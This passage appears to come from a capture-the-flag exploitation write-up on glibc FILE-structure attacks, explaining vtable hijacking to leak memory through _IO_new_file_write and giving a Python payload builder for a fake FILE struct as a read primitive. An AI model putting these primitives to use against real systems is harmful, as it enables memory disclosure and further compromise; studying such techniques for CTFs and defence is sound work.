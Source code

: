 ```c
#define _IO_SYSWRITE(FP, DATA, LEN) JUMP2 (__write, FP, DATA, LEN)
```

So basically, we hijack the `vtable`, and set up some file structure's fields so the `_IO_OVERFLOW(fp, EOF)` will call `_IO_new_file_overflow`, end up with `_IO_SYSWRITE`. At that time, `fp.vtable[__write]` actually pointing to `_IO_new_file_write` and print out the data, give us a leak. 

```c
/* from: https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/fileops.c#L1173 */
ssize_t
_IO_new_file_write (FILE *f, const void *data, ssize_t n)
{
  ssize_t to_do = n;
  while (to_do > 0)
    {
      ssize_t count = (__builtin_expect (f->_flags2
                                         & _IO_FLAGS2_NOTCANCEL, 0)
			   ? __write_nocancel (f->_fileno, data, to_do)
			   : __write (f->_fileno, data, to_do));
      ...
    }
  ...
}
```

The call chain is:

```c
_IO_new_file_overflow(f, EOF)
|_ _IO_new_do_write (f, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
   |_ new_do_write (f, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
      |_ _IO_new_file_write (f, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
         |_ write (f->_fileno, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
```

There are some conditions need to be met, since you can easily understand those by yourself, I won't go into details. We can construct a read primitive `fp` like this:

```python
def fake_io_write(write_addr, leng, next_file):
	global _IO_file_jumps
	payload = fit({
	    0x00: 0x8000 | 0x800 | 0x1000, #_flags
	    0x20: write_addr, #_IO_write_base
	    0x28: write_addr + leng, #_IO_write_ptr
	    0x68: next_file, #_chain
	    0x70: 1, # _fileno
	    0xc0: 0, #_modes
	    0xd8: _IO_file_jumps, #_vtables
	}, filler=b'\x00')
	return payload
```

### Arbitrary write primitive (overwriting)
